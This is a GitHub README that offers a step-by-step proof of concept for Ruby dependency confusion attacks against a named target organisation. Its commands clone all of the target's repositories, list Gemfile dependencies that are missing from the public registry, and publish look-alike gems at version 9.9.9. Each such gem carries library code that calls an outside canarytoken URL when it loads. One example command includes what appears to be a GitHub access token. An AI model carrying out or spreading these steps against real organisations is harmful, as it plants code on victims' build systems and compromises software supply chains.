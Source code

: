 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/ruby_dependency_confusion_attacks/assets/85815644/0b65137c-72e8-4003-b4b1-265cd25a37bd"></a>
<h1 align="center">Ruby Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>
  
  
## How to Finds & How to Exploit
    
Finds Gemfile then check the all require here is public or not
    
`https://rubygems.org/gems/`

#### Download all target github repository
 
 - Crate personal access tokens (classic) - https://github.com/settings/tokens 
 - Install ghorg - https://github.com/gabrie30/ghorg#installation
    
 ```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone microsoft -t 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`
    
- After Download all repository finds vulnerable ruby package 
    
 
```bash
<a><img title="not working" src="https://img.shields.io/badge/-Nor%20working-red"></a>
$ find . -type f -name Gemfile | xargs -n1 -I{} cat {} | awk '/gem / {print}' | grep gem | cut -d "'" -f2 | sort -u | tr -d "'" | tr -d "," |  xargs -n1 -I{} echo "https://rubygems.org/gems/{}" |  httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly, so this the vulnerable to dependencies confusion attack.
    
- Then must be cross checking using github dorking - `org:microsoft package_name`
    
- So now Publish this ruby packages publicly (https://rubygems.org)
    
```bash
$ bundle gem <package_name>
```
- Everything set default
    
```bash
$ cd <package_name>
```
```bash
$ nano <package_name>.gem
```
- Replaced -
    
    ```bash
    Gem::Specification.new do |s|
      s.name        = "<package_name>"
      s.version     = "9.9.9"
      s.summary     = "Vulnerability Disclosure: Dependency confiuse vulnerability"
      s.description = "This Ruby package vulnerable to dependency confiuse vulnerability"
      s.authors     = ["<Anindya Ghoshal>"]
      s.email       = "<techghoshal@gmail.com>"
      s.files       = ["lib/<package_name>.rb"]
      s.homepage    =
        "https://rubygems.org/gems/<package_name>"
      s.license       = "MIT"
   end
   ```
 - Save this file
 
 ```bash
 $ cd lib
 ```
 - Replaced -
    
    ```bash
    module Techghoshal
       require 'net/http'
       result = Net::HTTP.get(URI.parse('<canarytokens_url>'))
    end
    ```
 - Save this file  
 
 ```bash
 $ cd ..
 ```
 ```bash
 $ gem build <package_name>.gemspec
 ```
- Upload file publicly (https://rubygems.org/)

- Create Accont on rubygems.org
    
 ```bash
 $ gem push <package_name>-9.9.9.gem 
 ```
- Enter your Email: `<email>`
- Enter your username: `<username>`
- Enter your password: `<password>`
    
---
    
<b>Upload IS DONE</b> 😎 
- Must be checking - https://rubygems.org/gems/package_name
- 🎉 Now Bounty Time 💰💰
 
## Connect me
If you have any queries, you can always contact me on  <a href="https://twitter.com/techghoshal">twitter(@techghoshal)</a>
    
    
